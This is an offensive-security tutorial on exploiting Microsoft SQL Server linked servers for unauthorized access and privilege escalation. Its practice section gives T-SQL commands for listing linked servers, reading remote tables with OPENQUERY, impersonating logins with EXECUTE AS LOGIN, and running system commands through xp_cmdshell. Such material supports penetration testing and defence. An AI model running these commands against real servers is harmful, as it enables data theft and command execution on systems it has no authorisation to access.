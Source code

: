 ```yaml
---
title: 'Exploit MSSQL Trusted Links: Access & Privilege'
description: Learn to exploit MSSQL Trusted Links for unauthorized access and privilege
  escalation.
keywords:
- MSSQL Trusted Links
- linked servers
- SQL injection
- unauthorized access
- privilege escalation
- security context impersonation
- OPENQUERY
- sp_linkedservers
- command execution
---
```


# MSSQL Trusted Links

## Context

This article explores the exploitation of MSSQL Trusted Links for unauthorized data access and potential command execution. The reader is assumed to have knowledge of SQL Server architecture, the configuration of linked servers, and SQL query execution.

## Theory

### Linked Servers in MSSQL

Linked servers in Microsoft SQL Server allow an instance to interact with data sources beyond its boundaries through its support for OLE DB. This functionality facilitates seamless cross-database queries and operations, allowing different databases to communicate and exchange data efficiently.

### Trust Assumptions in MSSQL Trusted Links

MSSQL Trusted Links are grounded in the assumption that there is inherent trust between the communicating SQL Server instances. These linkages, if misconfigured, can potentially lead to vulnerabilities, allowing attackers to bypass standard authentication protocols and gain unauthorized access to data.

### Security Context Impersonation

Security context impersonation is a function where SQL Server can assume the identity of a trusted connection's security context. When mismanaged, this can be exploited to escalate privileges, providing attackers with the means to access or manipulate sensitive data and operations otherwise restricted.

### Cross-Database Access via Linked Servers

A fundamental attack sequence involves using a linked server to execute queries or commands on a remote database. The main weakness here lies in the lack of stringent access controls, often leading to unauthorized data access if improperly configured.

## Practice

### Exploiting MSSQL Trusted Links for Unauthorized Access

- **Identify Linked Servers**:   
  Use the `master..sysservers` table to identify all the linked servers configured in the target SQL Server instance.

    ```bash
    SELECT * FROM master..sysservers;
    ```

- **List Linked Servers**:  
  Employ the stored procedure `sp_linkedservers` to enumerate all linked servers, helping identify potential targets.

    ```bash
    EXEC sp_linkedservers;
    ```

- **Access Data from Linked Server**:  
  Retrieve information from a database within a linked server using `OPENQUERY`. This allows data access without having direct permissions on the target server.

    ```bash
    SELECT * FROM OPENQUERY([LinkedServerName], 'SELECT * FROM target_db.dbo.target_table');
    ```

- **Execute Commands on Linked Server**:  
  Use `xp_cmdshell` to run commands, such as `whoami`, on the linked server to confirm access levels or gather more information.

    ```bash
    EXEC('xp_cmdshell ''whoami''') AT [LinkedServerName];
    ```

  Outcome: This technique enables unauthorized access to data hosted on linked servers, bypassing direct permissions.

### Privilege Escalation via Security Context Impersonation

- **Impersonate a Higher Privilege Login**:  
  Leverage `EXECUTE AS LOGIN` to impersonate a login with elevated privileges.

    ```bash
    EXECUTE AS LOGIN = 'linked_server_login';
    ```

- **Access Data Using Impersonation**:  
  Through impersonation, query sensitive data from the linked server.

    ```bash
    SELECT * FROM OPENQUERY([LinkedServerName], 'SELECT * FROM sensitive_db.dbo.sensitive_table');
    ```

- **Execute Privileged Commands**:  
  Utilize `xp_cmdshell` to execute privileged commands, such as checking user accounts, on the linked server under the impersonated security context.

    ```bash
    EXEC('xp_cmdshell ''net user''') AT [LinkedServerName];
    ```

  Outcome: This approach results in privilege escalation, enabling the attacker to perform tasks beyond their original access level using impersonated privileges.

## Tools

- **SQL Server Management Studio**
- **sqlcmd**

By following the above techniques, an attacker can exploit trust relationships in linked MSSQL servers to execute unauthorized commands, access sensitive data, and elevate their privilege within the network.